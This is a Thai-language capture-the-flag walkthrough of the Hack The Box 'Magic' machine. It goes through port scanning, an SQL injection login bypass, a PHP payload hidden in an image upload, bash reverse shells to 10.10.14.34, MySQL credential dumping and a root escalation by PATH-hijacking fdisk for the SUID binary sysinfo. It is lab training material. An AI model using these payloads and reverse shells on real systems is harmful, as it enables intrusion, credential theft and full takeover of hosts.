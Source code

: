 # Recon

## TCP Scan
```bash
./scan.sh 10.10.10.185
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 20:20 +07
Nmap scan report for 10.10.10.185 (10.10.10.185)
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds

```

ทดสอบใส่ SQLi ไปที่หน้า Login ปรากฎว่าสามารถ Bypass ได้ไปที่หน้า upload.php 

```sql
' or 1=1-- -
```


![[Challenge/HTB Challenge/Magic/IMG/001.png]]

upload.php
![[Challenge/HTB Challenge/Magic/IMG/002.png]]


## Bypass upload 

จากการทดสอบเราจะไม่สามารถ upload ไฟล์ php shell ไปได้ตรงๆ โดยระบบจะมีการ Filter ไฟล์ที่ Upload เข้าไป โดยจะอนุญาตเฉพาะ jpg, png เท่านั้น 

ทั้งนี้ เราสามารถใช้ cat.php.jpg ไปได้ โดยทำการเพิ่ม payload ของ php แทรกไประหว่างไฟล์

![[Challenge/HTB Challenge/Magic/IMG/003.png]]

ทั้งนี้ จากการตรวจสอบหน้า index.php เราจะเห็นว่าระบบจะมีการเก็บไฟล์ไว้ที่ /images/uploads/ชื่อไฟล์ ทำให้เราสามารถทราบได้ว่าปลายทางที่เก็บอยู่ที่ใด 
![[Challenge/HTB Challenge/Magic/IMG/004.png]]

## Shell as www-data

จากนั้นทดสอบโจมตีด้วย Reverse shell ก็จะสามารถเข้าถึงเป้าหมายได้ 
```http
http://10.10.10.185/images/uploads/cat2.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.34/443%200%3E%261%27
```

![[Challenge/HTB Challenge/Magic/IMG/005.png]]

## Enum host 

เนื่องจากว่าเป้าหมายเป้นเว็บไซต์จึงเข้าไปตรวจสอบบนไฟล์ /var/www/Magic จะพบ config ไฟล์ของ db.php5 ทำให้เป็นข้อมูลของชื่อผู้ใช้งานและรหัสผ่าน สำหรับเข้าใช้งาน mysql 

![[Challenge/HTB Challenge/Magic/IMG/006.png]]

```bash
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![[Challenge/HTB Challenge/Magic/IMG/007.png]]

## Shell as theseus 
จะพบรหัสผ่านของ admin ซึ่งหากเราลอง su จะสามารถเข้าใช้งานได้ 

```bash
su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic$ whoami 
whoami 
theseus
theseus@magic:/var/www/Magic$ 
```


## Become ROOT

```bash
find / -user root -type f -perm -4000 -ls 2>/dev/null
```


จะพบว่ามีบรรทัดหนึ่งที่น่าสนใจโดยมีสิทธิของกลุ่ม users และมี owner เป็น root 
```bash
   393232     24 -rwsr-x---   1 root     users              22040 Oct 21  2019 /bin/sysinfo
```

จากนั้นให้ทำการวิเคราะห์ binary  ดังกล่าวด้วยการรัน sysinfo จากนั้นตรวจสอบด้วยคำสั่ง ltrace เพื่อที่จะตรวจสอบว่า Binary ดังกล่าวมีการเรียกใช้อะไรจากภายนอกบ้าง 

```bash
sysinfo

ltrace sysinfo
```

จากการรันเราจะพบว่าโปรแกรม sysinfo มีการเรียกใช้งาน fdisk ด้วยซึ่งคาดว่าจะมีการรันด้วยสิทธิ ROOT  

![[Challenge/HTB Challenge/Magic/IMG/008.png]]

โดยคำสั่ง popen เป็นการเปิดใช้งาน Process บน Linux ซึ่งจากบรรทัดดังกล่าวเป็นการเรียกใช้ fidisk ซึ่งหากไม่มีการระบุ full path นั่นหมายความว่าเราก็สามารถ Hijack Binary ได้เช่นกัน 

จากนั้นทำการแทรก binary ของ fdisk ด้วย Reverse shell ดังต่อไปนี้ 
```bash
theseus@magic:~$ cd /dev/shm
cd /dev/shm

theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.34/443 0>&1' 

</bash\n\nbash -i >& /dev/tcp/10.10.14.34/443 0>&1' 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.34/443 0>&1

theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.34/444 0>&1'  > fdisk


<nbash -i >& /dev/tcp/10.10.14.34/444 0>&1'  > fdisk


theseus@magic:/dev/shm$ chmod +x fdisk


chmod +x fdisk

theseus@magic:/dev/shm$ export PATH="/dev/shm:$PATH"

export PATH="/dev/shm:$PATH"

theseus@magic:/dev/shm$ sysinfo

```

และฝั่งผู้โจมตีการรอรับ  reverse shell ก็จะได้สิทธ้ root 

![[Challenge/HTB Challenge/Magic/IMG/009.png]]


# PWNED